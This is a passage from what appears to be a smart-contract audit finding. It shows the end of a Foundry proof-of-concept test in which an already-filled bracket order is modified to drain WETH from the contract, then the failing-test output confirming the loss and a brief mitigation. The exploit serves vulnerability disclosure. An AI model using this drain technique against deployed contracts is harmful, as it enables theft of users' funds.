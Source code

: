 ```solidity
        });

        IAutomation.MasterUpkeepData memory upkeepData = IAutomation.MasterUpkeepData({
            orderType: IAutomation.OrderType.BRACKET,
            target: address(this),
            txData: abi.encodeWithSignature("validSwap()"),
            pendingOrderIdx: 0,
            orderId: orderId,
            tokenIn: weth,
            tokenOut: usdc,
            slippage: 0,
            amountIn: 1 ether,
            exchangeRate: 0
        });
        _updateETHPrice(4200);

        // 3/ order is filled
        bracket.performUpkeep(abi.encode(upkeepData));

        // 4/ attacker modifies order to drain funds
        bracket.modifyOrder(
            orderId,
            4100 * 1e8,
            0,
            1 ether - 0.00001 ether,
            usdc,
            address(this),
            0,
            0,
            false,
            false,
            new bytes(0)
        );

        // check if current balance is not less than the initial balance
        assertGt(
          weth.balanceOf(address(bracket)), initialWethBalance, "balance decreased"
        );
    }
}

```

Prepare the foundry test as above, run the test `test_modifyOrder_drain` and the console shows:
```bash
Failing tests:
Encountered 1 failing test in test/Counter.t.sol:MyTest
[FAIL: balance decreased: 10000000000000 <= 1000000000000000000] test_modifyOrder_drain() (gas: 378380)
```

### Mitigation

Mark order status properly